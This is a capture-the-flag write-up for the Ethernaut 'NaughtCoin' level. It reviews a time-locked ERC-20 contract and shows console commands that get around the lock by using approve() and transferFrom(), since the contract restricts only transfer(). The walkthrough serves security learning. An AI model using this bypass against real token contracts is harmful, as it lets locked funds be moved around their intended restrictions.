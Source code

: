 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

Challenge's message:

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Say welcome this Solidity smart contract for an ERC-20 token called NaughtCoin. It inherits from the OpenZeppelin ERC20 contract, which provides standard functionality for ERC-20 tokens. The contract has an added functionality that prevents the initial owner (player) from transferring tokens until a certain time lock period has passed.

First of all, the contract imports the ERC20.sol file from the "openzeppelin-contracts-08" library, which contains the implementation of the ERC-20 standard. Then, there is a public variable called **timeLock** which is storing the timestamp until which the initial owner cannot transfer tokens. It is set to 10 years (365 days * 10) from the deployment of the contract. After then, **INITIAL_SUPPLY** public variable representing the total initial supply of NaughtCoin tokens. It is initialized to 1,000,000 tokens with 18 decimals. Later, the **player** variable is storing he address of the initial owner of the contract.

In the constructor, it setups classic deployment process. If you don't how to deploy ERC20 contract, you can visit [here.](https://hacken.io/discover/create-erc-20-token/)

In this step, we are looking into the rest of the contract. In the transfer() function, the contract **overrides the transfer function from the ERC20 contract**. It adds a modifier **lockTokens** to the transfer function, which restricts token transfers from the initial owner until the time lock has passed. If the sender (msg.sender) is the player address, the modifier checks if the current timestamp is greater than the timeLock. If it is, the transfer is allowed; otherwise, the transfer is rejected. What is more, if the sender is not the player address, the transfer is allowed without any time restrictions.

Next, there is a **lockTokens** modifier. It checks whether the sender is the player address:

- If it is, the modifier requires that the current timestamp is greater than the **timeLock** variable, effectively enforcing the time lock. If the condition is met, the modifier allows the function to proceed.
- If the sender is not the **player** address, the modifier allows the function to proceed without imposing any time restrictions.

## ERC20 Standard

The ERC-20 standard, short for Ethereum Request for Comment 20, is a technical standard used for the implementation of fungible tokens on the Ethereum blockchain. Fungible tokens are digital assets that are interchangeable with each other, meaning one token is equivalent to another and can be used interchangeably.

The ERC-20 standard defines a set of rules and interfaces that smart contracts must adhere to in order to enable seamless interaction with other contracts and decentralized applications (DApps) on the Ethereum network. Following this standard ensures that tokens will be compatible with various wallets, exchanges, and other decentralized services, fostering interoperability and ease of use.

Key Features of ERC-20:

- **Basic Functionality:** ERC-20 tokens must implement a specific set of functions that allow for basic operations such as transferring tokens between addresses, checking an account's token balance, and approving third-party addresses to spend tokens on behalf of the token holder.
- **Token Identification:** Each token contract must provide a name and symbol for identification purposes. For example, a token representing a fictional currency could have the name "MyToken" and the symbol "MTK."
- **Decimal Precision:** ERC-20 tokens have a fixed decimal precision, meaning the contract specifies the number of decimal places the token can be divided into. For example, a precision of 18 means that 1 token can be divided into 10^18 smaller units (called "wei" in Ethereum).
- **Total Supply:** The contract must track the total supply of tokens minted, and it should be possible to query the total supply at any time.
- **Account Balances:** ERC-20 tokens must keep track of the balance of each token holder's account, and it should be possible to query the balance of any specific account.
- **Token Transfer:** The contract should provide a function to allow token holders to transfer tokens from their account to another specified account.
- **Approvals and Allowances:** Token holders can approve other addresses to spend a certain number of tokens on their behalf. This feature is often used for interactions with other contracts, such as decentralized exchanges.
- **Events:**  ERC-20 tokens often use events to emit notifications about specific contract-related activities, like token transfers or approvals.

It's important to note that while the ERC-20 standard has become the de facto standard for token implementation on the Ethereum blockchain, it does not address all use cases. For example, non-fungible tokens (NFTs) have unique properties and are governed by different standards like ERC-721 and ERC-1155. Nevertheless, ERC-20 remains a fundamental standard for creating fungible tokens that are widely supported within the Ethereum ecosystem.


# Subverting

In this example, we can transfer our balance to another address with the `transferFrom()` function even if the contract requires the timeLock's time for transferring tokens. But, we must give an allowance for some addresses for using the transferFrom() function. That's why, we should call `approve()` function which helps us to define our beneficiary address and legacy value. Let's test it!


First in first, check our balance.

```js
(await contract.balanceOf(player)).toString()
'1000000000000000000000000'
```

Let's look at the amount which spender is still allowed to withdraw from player. That is zero because of we didn't define any allowance.


```solidity
(await contract.allowance(player, player)).toString()
'0'
```

In this turn, we have defined us as a `_spender` of 10000000000000000000000000 tokens with approve() function. See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xee4d5333cc4c60ddde903a5c938c01c705b34632224f36b6979b5b445fb1e34e)

```js
await contract.approve(player, "1000000000000000000000000")
```

```js
(await contract.allowance(player, player)).toString()
'1000000000000000000000000'
```

In the final step, we transfer all balance to my ex address as a **spender role**. So, we don't attached the require statement. See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xe31cef4e74fa793caf8cda4c87b1341d0be88ff0df35137057fc8f1cbd4db4d2)

```js
await contract.transferFrom(player,"0x80aCA4707d5A7B83B6Df80155ee46179AE678d2e","1000000000000000000000000")
```

And, we have set the balance to zero. In other words, we have passed the challenge!

```js
(await contract.balanceOf(player)).toString()
'0'
```

Ethernaut's message:

> When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

**_by wasny0ps_**
